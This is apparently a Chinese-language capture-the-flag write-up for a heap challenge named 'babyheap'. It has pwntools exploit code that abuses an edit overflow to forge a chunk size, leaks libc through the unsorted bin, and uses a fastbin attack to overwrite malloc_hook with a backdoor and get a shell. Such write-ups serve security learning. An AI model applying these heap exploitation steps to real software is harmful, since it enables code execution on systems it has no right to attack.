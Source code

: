 # babyheap  
![](./pics/chc.png)  
又是一道有后门的题  
![](./pics/show.png)  
![](./pics/create.png)  
![](./pics/del.png)  
![](./pics/edit.png)  
很明显的bug是edit那里，可以编辑0x50字节，也就是说能覆盖下面的heap。  
```
create(0,0x18,b'aaaa')
create(1,0x48,b'bbbb')
create(2,0x48,b'cccc')
create(3,0x18,b'dddd')
payload=b'f'*0x18+b'\xa1'
edit(0,payload)
delete(1)
show(0,0x30)
p.recv(0x28)
leak =u64(p.recv(8))
print(hex(leak))
```
把1处的heap大小改为0xa1，释放后使其放进unsortedbin，通过show函数得到bk和fd，泄露libc地址，使用LibcSearcher得知远程环境libc版本为2.23（没给附件，自己下载）  
下面接下来劫持malloc_hook，把后门函数放进malloc_hook就行了。  
因为给的create的数量很多，不需要节约，使用fastbin_attack，释放两个大小为0x18(实际为0x20)的heap，让新heap开到存放heap地址的地方  
```
create(1,0x48,b'nnnn')
create(6,0x48,b'tttt')
create(4,0x18,b'mmmm')
create(5,0x18,b'tttt')
create(7,0x21,b'tttt')
# pause()
delete(4)
delete(5)
delete(6)
payload=p64(0)*3+p64(0x21)+p64(0)*3+p64(0x21)+p64(0x404120+8)
edit(3,payload)
create(4,0x18,b'mmmm')
create(5,0x18,b'mmmm')
```
![](./pics/4040c02.png)  
看到索引为5的heap确实在0x4040c0上接下来真的就是为所欲为了，可以任意地址写，把后门函数放到malloc_hook即可。  
```
payload=p64(hook)
edit(5,payload)
edit(7,b'\xdd\x16\x40\x00\x00\x00\x00')
create(8,0x50,b'nnnn')
p.interactive()
```
再次调用malloc时就能getshell
